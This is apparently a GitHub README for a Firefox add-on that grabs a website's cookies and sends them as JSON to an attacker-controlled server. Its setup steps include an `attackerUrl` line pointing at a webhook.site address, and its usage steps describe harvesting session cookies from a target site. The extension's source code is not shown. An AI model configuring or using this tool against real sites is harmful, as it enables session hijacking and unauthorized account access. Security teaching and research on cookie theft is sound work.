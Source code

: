 # Cookie Hijacking Extension
The Cookie Hijacking Extension is a Firefox browser add-on designed for security researchers and professionals. This extension allows users to understand and demonstrate vulnerabilities related to cookie hijacking, a common security issue that can lead to unauthorized access to user sessions.


Note: This extension is intended for educational and research purposes only.

## Installation
1. Clone this repository to your local machine:
```
https://github.com/rafaelcintralopes/cookie-hijacking-extension.git
```
2. Insert the URL of the attacker that will receive the cookies into the `attackerUrl` variable of the `popup/popup.js` file:
```
var attackerUrl = "https://webhook.site/7d5c5233-6056-4467-8310-42a5a7daee55"
```

4. Load Extension in Firefox:
- Open Firefox and go to `about:debugging#/runtime/this-firefox`.
- Click on "Load Temporary Add-on…".
- Select the `manifest.json` file from the extension folder.

## Usage
1. Turn on the server that will receive requests containing cookies.
2. Access the target website.
3. Click on the extension.
4. Your server will receive cookies in JSON.

## Disclaimer
This extension is for educational purposes only. The developer do not endorse or condone any illegal or unethical use of this tool. Always seek permission before testing on any web application.
